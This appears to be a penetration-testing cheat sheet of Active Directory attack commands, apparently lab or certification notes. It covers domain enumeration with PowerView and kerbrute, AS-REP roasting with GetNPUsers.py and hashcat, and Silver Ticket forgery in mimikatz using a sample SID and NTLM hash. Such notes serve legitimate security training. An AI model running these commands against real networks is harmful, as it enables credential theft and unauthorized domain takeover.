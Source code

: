 ## 🔺 Check if domain joined
```
systeminfo | findstr /B /C:"Domain"
# If it returns a domain name, the machine is domain-joined.
# If it returns WORKGROUP, it's not part of a domain.
```


## 🔺 Powerview
```
# Users
Get-NetUser | select samaccountname
Get-NetUser | select samaccountname, memberof, serviceprincipalname
# DC IP
Get-NetDomainController -Domain domain.com

# Who is domain admin
Get-DomainGroupMember "Domain Admins" -Recurse

# You can use CME to get hostname <-> IP 
```

## 🔺 Kerberos User enumeration
```
test if user names are validate:
kerbrute userenum -d relia.com --dc 172.16.143.6 users.txt 
```

## 🔺 LDAP Enumeration
```
ldapseasrch
```



## 🔺 AS-REP Roasting (NO Pre-Auth)
> Crack with hashcat a.hash /usr/share/wordlists/rockyou.txt -m 18200
```
GetNPUsers.py relia.com/ -usersfile users.txt -no-pass -dc-ip 172.16.143.6
```



## 🔺  Silver Ticket
- Require ((`Service Account password` OR `NTLM hash`)), ((`Domain SID`)) & ((`Target SPN`))
- Result -> Forged Service ticket AKA Silver Ticket
- If SPN used on multiple servers, Silver Ticket can be used on all of them.

#### To get the domain SID we can do whoami /user
```corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105```

#### to get the SPN we can enumerate SPN using impacket-GetUserSPNs.


### Forge TGS (Silver Ticket)
With all of this info, we can forge a TGS (silver ticket) as follows within mimikatz

```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:5d28cf5252d32971419580a51484ca09 /user:geffadmin
```
